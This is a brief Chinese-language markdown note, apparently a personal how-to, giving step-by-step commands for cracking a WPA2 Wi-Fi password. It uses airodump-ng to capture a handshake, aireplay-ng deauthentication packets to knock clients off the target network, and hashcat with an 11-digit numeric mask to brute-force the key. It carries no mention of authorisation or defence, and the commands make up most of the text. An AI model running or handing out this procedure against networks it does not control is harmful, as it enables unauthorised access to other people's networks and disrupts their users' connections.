

## 开机启动

sudo su

ifconfig查看wifi网卡

查看wifi
airodump-ng wlan0

airodump-ng -c wifi的信道 --bssid wifi的mac地址 -w /home/kali/Desktop/wpa2 wlan0

## 打开新的终端

aireplay-ng -0 3 -a wifi的mac地址 wlan0

将获取的handshake文件发送给windows端（cap文件）

## 破解wifi

https://hashcat.net/hashcat/  下载hashcat binaries

将cap文件转为hashcat可以处理的文件类型
https://hashcat.net/cap2hashcat/

放到hashcat的目录下

打开终端并进入hashcat的目录：.\hashcat.exe -I 查看显卡信息

.\hashcat.exe -a 3 -i 需要破解的文件 ?d?d?d?d?d?d?d?d?d?d?d --show
